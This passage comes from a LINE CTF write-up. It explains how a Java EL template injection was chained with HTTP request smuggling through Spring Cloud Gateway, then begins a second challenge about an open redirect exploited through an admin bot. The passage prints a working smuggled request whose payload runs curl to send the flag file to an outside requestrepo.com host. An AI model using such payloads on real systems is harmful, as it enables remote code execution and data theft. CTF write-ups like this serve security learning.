 ```java
}
```

Where buildConstraintViolationWithTemplate is vulnerable to [server side template injection](https://securitylab.github.com/advisories/GHSL-2020-028-netflix-titus/). We can get a payload from [hacktricks](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md), and we confirm that it works.

Now, the challenge is to actually send the payload to the internal app. We can't do that directly, as the internal app is only accessible from the gateway. We can use the gateway to send the payload to the internal app. I saw that the gateway was using `spring-cloud-gateway-core-2.1.1`, and that there is a CVE that applies to future versions which is related to [request injection](https://github.com/advisories/GHSA-2r2v-q399-qq93). So I crafted a payload using `Transfer-encoding: chunked` to send the payload to the internal app, and it worked!

Payload:
```
PUT /api/external HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Connection: close
Transfer-encoding:  chunked

11e
POST /api/internal/ HTTP/1.0
Host: localhost
Content-Type: application/json
Content-Length: 180

{"name":"${\"\".getClass().forName(\"java.lang.Runtime\").getMethods()[6].invoke(\"\".getClass().forName(\"java.lang.Runtime\")).exec(\"curl -d@/FLAG 06sjnkhn.requestrepo.com\")}"}
0
```

**LINECTF{7988de328384f8a19998923a87aa053f}**

<a name="hhhhhhhref"></a>
## hhhhhhhref (257 pts, 12 solves) - Web

Description:
```
Are they specifications or are they vulnerabilities? What do you think?

http://34.146.31.52:3000/
```

We are given a web application written in next.js, the goal is to get the flag from the admin bot. As we can see:
```js
// crawl with provided code
await page.setExtraHTTPHeaders({
    "X-LINECTF-FLAG": process.env.FLAG
});
await page.goto(`${process.env.NEXTAUTH_URL}/rdr?errorCode=${code}`);
await delay(1500);
```
The bot sets the `X-LINECTF-FLAG` header, so we don't have to get XSS, an open redirect in the `/rdr` endpoint will suffice. But before that:
```js
// login
await page.goto(`${process.env.NEXTAUTH_URL}/api/auth/signin?callbackUrl=/`);
await page.type("#input-name-for-credentials-provider", username);
await page.type("#input-password-for-credentials-provider", password);
```
The admin logs in with the username and password that **we provide**, which will be important later. Looking at the `/rdr` endpoint:
```js
```
